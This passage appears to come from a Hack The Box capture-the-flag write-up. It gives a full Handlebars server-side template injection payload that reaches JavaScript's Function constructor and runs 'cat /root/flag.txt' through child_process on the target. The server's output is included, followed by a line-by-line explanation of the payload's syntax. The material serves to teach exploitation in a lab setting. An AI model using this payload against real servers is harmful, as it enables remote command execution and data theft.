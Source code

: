*The flag is indeed in ```/root``` and is called "flag.txt". Let's modify our payload in order to read it:*

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

*The flag is shown in the server response and can be copied and pasted to the Hack The Box platform:*

```
We will contact you at: e
2
[object Object]
function Function() { [native code] }
2
[object Object]
6b******************************
```

This concludes the demonstration of an SSTI vulnerability.

## Additional comments about syntax in the final payload

- ```{{#with ...}}```: This is a block helper that creates a new context. The variable defined in the with statement is accessible within that block.

- ```{{this.pop}}``` and ```{{this.push ...}}```: These are methods being called on the this context, which is a list or array. pop removes the last item from the list, and push adds an item to the end of the list.

- ```{{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}```: This line is injecting a payload that will execute a shell command on the server, specifically reading the content of a file (```/root/flag.txt```).

- ```{{string.sub "constructor"}}```: This is accessing the ```constructor``` property of the string ```object```, which is part of JavaScript's object model. This is typically used to manipulate or access the internal structures of the JavaScript engine for exploitation purposes.
